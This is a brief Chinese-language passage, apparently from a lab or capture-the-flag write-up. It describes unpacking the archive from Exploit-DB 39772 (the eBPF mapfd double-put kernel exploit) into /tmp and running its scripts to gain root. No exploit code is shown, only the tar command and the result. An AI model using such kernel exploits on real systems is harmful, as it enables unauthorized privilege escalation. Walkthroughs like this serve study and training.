

根据39772.txt，脚本在exploit.tar中

```
tar -xvf exploit.tar -C /tmp/39772
```

(-C是指定解压到目录，cvf是压缩，-z参数是gzip格式)



进入解压出的ebpf_mapfd_doubleput_exploit目录，尝试运行两个脚本，成功提权，拿到root
